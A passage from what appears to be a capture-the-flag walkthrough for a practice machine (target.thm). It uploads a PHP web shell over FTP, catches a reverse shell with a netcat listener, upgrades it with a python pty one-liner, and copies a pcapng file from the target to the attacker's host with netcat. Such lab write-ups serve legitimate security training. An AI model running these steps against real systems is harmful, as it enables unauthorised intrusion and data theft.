 ```bash
Connected to target.thm.
230 Login successful.

ftp> cd ftp

ftp> put shell.php
local: shell.php remote: shell.php
226 Transfer complete.

ftp> ls
-rwxrwxr-x    1 112      118          5492 Nov 10 16:26 shell.php
```
  
Upload sucessfully done. Lets run a netcat listener and trigger the reverse shell.  
  
Listener: `nc -lnvp 9001`  
Firefox: `target.thm/files/ftp/shell.php`  

Bingo! 
Upgrade: 
`python -c 'import pty;pty.spawn("/bin/bash")'`,   
`export SHELL=bash` and   
`export TERM=xterm-256color`.  
  
  
  
---
   
  
## <ins>System enumeration</ins>  
  

Checkout the actual directory with `pwd` and have a look at the file we could read, write or execute with `ls-la`.
We find a file name **rexxxx.txt**. Cat that out and get the answer for task 1.1.
  

###
**Task 1.1 solved**
### 
  
Next interesting file or directory will be **incidents**. We find a file named **suspicious.pcapng**.
> Pcapng files are files for wireshark.

Let download this file via netcat:  
  
Local: `nc -l -p 1234 > suspicious.pcapng`
  
Target: `nc -w 3 $LHOST 1234 < suspicious.pcapng`

Check md5sum: `md5sum suspicious.pcapng` (if it matches you are good, if not do -w 5 on target netcat command)
  

---
  
